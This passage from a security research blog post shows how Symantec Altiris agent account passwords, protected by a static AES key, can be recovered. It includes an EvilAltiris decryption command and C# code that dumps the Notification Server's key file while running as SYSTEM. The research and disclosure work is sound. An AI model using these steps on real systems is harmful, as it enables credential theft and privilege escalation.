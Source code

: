 This `UserPassword` value is encrypted using an AES key, but what key?  Well, the editor did exactly the same thing Microsoft did with [passwords stored in Group Policy Preferences (GPP)](https://attack.mitre.org/techniques/T1552/006/), back in the day. They used a static AES key, which is the same across all installations of the *Notification Server*. So, obtaining the clear-text `UserPassword` is a child play!

```batch
"EvilAltiris.exe" DecryptAcc /data:"AwBcxiEuzG5L1KCP8VnpwJKd/FkxTo1w/G6zKuW7/2CSWcDeB0kxhT20I1x0kQ0+zfKpqNKDZ7YoYD3wKBScPkCiUYBB6HmV2h+Y2Yq5GRnPtLt4I9SfqPnyjzB51p+nITG31FbtxFR38BG2+T0gWbIfrnkZjyQLzTC8trZgjFQqddd85q1eLO4pCj++9Qpr3ZjOxkvaQlQknFbrWXiYGdVY"
```

![ACC password decryption failed](/assets/posts/2025-06-11-checking-symantec-account-credentials-privesccheck/evilaltiris-low-decryptacc-fail.png)
*ACC password decryption failed*

Except that it didn't work... The program threw the exception `Padding is invalid and cannot be removed`. Such an exception could indicate that either the input data or the encryption key is incorrect. For now, let's assume that the key was updated in the latest version of the agent.

To check that, I reused the code provided in MDSec's blog post to dump the cleartext content of the key file used by the *Notification Server*. This code must also be run as `NT AUTHORITY\SYSTEM`, because DPAPI, once again.

```csharp
XmlWriter writer = null;
XmlWriterSettings settings = new XmlWriterSettings();
settings.ConformanceLevel = ConformanceLevel.Auto;
writer = XmlWriter.Create("keys.xml", settings);

using (SymmetricKeyInfo keyWithImpersonation = SymmetricKeyManager.GetKey("NS.AgentSettings")) {
    keyWithImpersonation.ToXml(writer);
    writer.WriteStartElement("entry");
    writer.WriteElementString("item", "a");
    writer.WriteEndElement();
    writer.Flush();
}
```
